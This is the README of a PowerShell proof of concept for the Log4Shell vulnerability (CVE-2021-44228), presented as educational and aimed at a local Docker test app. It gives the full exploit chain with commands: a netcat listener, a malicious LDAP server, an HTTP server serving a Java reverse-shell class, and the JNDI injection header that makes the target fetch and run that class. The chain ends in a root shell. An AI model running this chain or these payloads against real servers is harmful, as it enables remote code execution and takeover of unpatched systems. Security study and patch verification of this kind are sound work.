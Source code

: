# Log4PowerShell (CVE-2021-44228) Proof of Concept

A Proof-Of-Concept for the CVE-2021-44228 vulnerability written in PowerShell.

This PowerShell script starts multiple processes (netcat listener, malicious LDAP and HTTP server, and a vulnerable web app hosted from a Docker image).
For educational purposes, this script runs through the entire exploit chain, dynamically creating the Java exploit class and ultimately producing a reverse shell on the web server.
The poisoned header sent to the vulnerable web application also triggers the information disclosure aspect of the vulnerability. The variable (Java version) can be observed in the LDAP server logs.

## Proof of Concept

The script Log4jPoC.ps1 automates the exploit locally on a Windows machine.

## Requirements

The requirement for Maven may be removed in the future if the pre-compiled LDAP server is included in the project.
For transparency I cloned the repo and built it from source.

- Docker for Desktop
- Java 8
- Maven
- Python3
- Internet connectivity (docker image pull, git clone)

## Usage

`.\Log4ShellPoC.ps1`

If all the dependencies are met, this should be it. The script will start spinning up console windows with everything you need to carry out the attack. Keep your eye on the ncat.exe to see the reverse shell connect.

## About this script

### Dependency check

The script will attempt to check the dependencies.
If all dependencies are met it will start building the exploit payload (Java reverse shell).
Once the payload is created we will launch the Docker container:

`ghcr.io/christophetd/log4shell-vulnerable-app`

This project can be found here: https://github.com/christophetd/log4shell-vulnerable-app

Thanks!

### LDAP Server

Once the server is up we have to move onto the LDAP server.
I am using marshalsec's object deserialization vulnerability project which can be found here:

https://github.com/mbechler/marshalsec

Thank you!

We really only need the LDAPRefServer.java file but ive included the entire project in this iteration.
The only modification needed is the listening port:

`(Get-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java).Replace('int port = 1389;' , "int port = $ldapPort;") | Set-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java -ErrorAction Stop`

A simple find and replace works.

Lets build the project with Maven 

`mvn clean package -DskipTests`

Next we run project and run it with some arguments:

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://$lhost:$httpFilePort/exploit/#Exploit`

The last bit configures the callback URI that will be passed to the vulnerable server when it contacts this server using the JDNI API. The LDAPRefServer.java has some string manipulation that will append `.class` to the end of Exploit.

In the end the resulting URI will look something like this:
`http://{IP}}:{PORT}}/exploit/Exploit.class`

### Netcat Listener

Once we have the malicious LDAP server up and running we move on to the netcat listener.
This is simply: `.\tools\ncat.exe -lvn {PORT}}`

Netcat will allow us to receive the TCP connection from the vulnerable server and interact with it.

### HTTP Server

Next, we need HTTP server to server up the payload we created earlier.

`python -m http.server $httpFilePort`

When the vulnerable servers follows the URI provided by the LDAP server it will download Exploit.class and execute it.
This should establish a connection with the netcat listener and give us access to the server as the user who is running the web app. In this case root.. Always run your applications as a user with the lowest permissions possible.

### Web Request

Now we have to acutally send a request to the vulnerable web server to kick everything off. In this exapmple it will be a GET request with an 'X=Api-Version' header containg the following string `${jndi:ldap://{IP}}:{PORT}}/${java:version}}`
For this example the header is doing two things.
Firstly, `${jndi:ldap://{IP}}:{PORT}}` tells the Log4j service to connect to a LDAP server.
Secondly, `/${java:version}` will cause the environment variable containing the Java version to be included in the request to the LDAP server. This can be useful for troubleshooting an payload that is not working. If the payload is compiled with a version of Java higher than what is installed on the server it will not work.

## Conclusion

At this point everything should have been spun up and you should see a shell in the netcat window.
Go ahead and type `whoami` to see the effective username of the current user. In this case root!
Notice the log messages displayed in the docker container. You should see messages indicating a connection to a remote server, the netcat listener.

Hopefully this helps clarify how this vulnerability is exploited.